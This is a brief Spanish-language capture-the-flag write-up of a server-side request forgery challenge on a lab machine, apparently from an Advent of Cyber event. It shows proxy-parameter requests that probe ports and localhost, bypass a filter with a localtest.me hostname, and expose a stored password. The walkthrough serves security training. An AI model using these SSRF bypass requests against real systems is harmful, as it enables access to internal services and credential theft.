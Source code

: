 # Day 19



http://10.10.36.146/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DTib3rius
http://10.10.36.146/?proxy=http://list.hohoho:8080/search.php?name=Tib3rius

- Probar la ruta raiz

```
http://10.10.36.146/?proxy=http://list.hohoho:8080/

The requested URL was not found on this server.
```

- Probar otro puerto
```
http://10.10.36.146/?proxy=http://list.hohoho:80/search.php?name=Tib3rius

Failed to connect to list.hohoho port 80: Connection refused
```
``` 
http://10.10.36.146/?proxy=http://list.hohoho:22/search.php?name=Tib3rius

Recv failure: Connection reset by peer
```

- Probar cambiando el host
```
http://10.10.36.146/?proxy=http://localhost:8080/

Your search has been blocked by our security team.
```

- Probar agregando un dominio falso 

``` 
http://10.10.36.146/?proxy=http://list.hohoho.localtest.me:80/

Santa,

If you need to make any changes to the Naughty or Nice list, you need to login.

I know you have trouble remembering your password so here it is: Be good for goodness sake!

- Elf McSkidy
```

- Ingresar al portal
S anta
Be good for goodness sake!
 
